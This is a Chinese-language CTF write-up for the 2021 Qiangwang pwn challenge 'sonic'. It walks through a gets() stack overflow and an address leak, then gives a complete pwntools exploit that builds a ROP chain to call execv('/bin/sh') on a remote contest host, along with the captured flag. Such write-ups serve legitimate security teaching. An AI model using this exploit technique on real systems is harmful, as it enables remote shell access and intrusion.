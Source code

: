# 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **sonic**

> challenge name: `sonic`
>
> file: `sonic`
>
> .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16

程序可以泄露程序基址，存在栈溢出漏洞，利用程序的gadgets做ROP。程序有execv系统调用，可以通过执行以下指令getshell

```cpp
execv("/bin/sh\x00", NULL); // rdi, rsi
```



# IDA Analysis

- main: 会输出main的地址，可以通过这个得到程序基址

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *argva[4]; // [rsp+10h] [rbp-20h] BYREF

  printf("main Address=%p\n", main);
  makeUserName();
  printf("userName =%s\n", userName);
  argva[0] = loginpath;                         // 字符串数组第一个参数是 文件路径
  argva[1] = userName;                          // 命令参数
  argva[2] = 0LL;                               // execv执行要求这个得是NULL
  execv(loginpath, argva);
  return 0;
}
```

- makeUserName

```cpp
char *makeUserName()
{
  char src[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("login:");
  gets((__int64)src);                           // 溢出点 无输入长度限制
  return strcpy(userName, src);
}
```

makeUserName里面调gets赋值，没有输入长度限制，存在栈溢出漏洞。

main中给出了execv的调用，ROP时可以返回到这里

程序中存在`"/bin/sh"`字符串



# exp

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "123.60.63.90"
PORT = 6890
DEBUG = 0


if DEBUG:
    p = process("./sonic")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[0].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:
    p = remote(IP, PORT)


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        cmd += "b *%d\n" % (base + 0x7B4)
        cmd += "b *%d\n" % (base + 0x7C7)  #
        cmd += "set $a=%d\n" % (base + 0x201040)  #
        cmd += "set $b=%d\n" % (base + 0x201010)  # loginpath
        debug(cmd)


ru("main Address=")
main_addr = int(ru("\n")[:-1], 16)
base_addr = main_addr - 0x7CF
print("main_addr=", type(main_addr), hex(main_addr), hex(base_addr))

# 找gadgets 构造ROP chain
pop_rdi = p64(base_addr + 0x8c3)  # 0x00000000000008c3 : pop rdi ; ret
pop_rsi_pop_r15 = p64(base_addr + 0x8c1)  # 0x00000000000008c1 : pop rsi ; pop r15 ; ret
execv_addr = p64(base_addr + 0x847) # call execv的地址
rbp = p64(0)  # p64(base_addr + 0x201010)
bash_addr = p64(base_addr + 0x201040) # "/bin/sh\x00"的地址
# payload: 令rdi指向"/bin/sh\x00" rsi r15赋值为0，返回地址为execv的地址
payload = b"/bin/sh\x00".ljust(32, b'a') + rbp + pop_rdi + bash_addr + pop_rsi_pop_r15 + p64(0) + p64(0) + execv_addr
# rdi=bash_addr; rsi=0 r15=0, execv("/bin/sh\x00", 0)
dd()
sl(payload)
p.interactive()  # flag{riCGJnvUieCXasPUUiAQ6XzWVdjFJTQB}

```



- 用于验证execv用法的代码：

```cpp
#include <unistd.h>
#include <cstdlib>

int main() {
    char* argv[3];
    argv[0] = NULL;
    execv("/bin/sh", argv);
}
```

